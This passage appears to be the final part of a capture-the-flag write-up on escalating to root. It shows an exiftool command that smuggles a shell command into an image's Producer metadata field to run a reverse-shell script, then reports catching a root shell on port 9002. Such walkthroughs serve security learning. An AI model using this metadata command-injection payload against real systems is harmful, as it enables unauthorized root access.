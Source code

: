 ![](https://cdn-images-1.medium.com/max/2034/1*ndi5A8YTJtUW-PFe0sLYJw.png)

Crafting our payload again.

    exiftool -Producer='a[$(/var/www/reverse.sh>&2)]+42' image.jpg

Transfer the image.jpg file to the **/tmp** directory again and listen to port 9002 since our script reverse.sh sends reverse connection on port 9002.

![](https://cdn-images-1.medium.com/max/2000/1*BkeVF43Cv3_A257RxQ7l3w.png)

We got our root shell. You need to wait some seconds.

![](https://cdn-images-1.medium.com/max/2000/1*Qlz7slde6HaPC7c-67sXew.png)

Here you go! Happy Hacking !!!
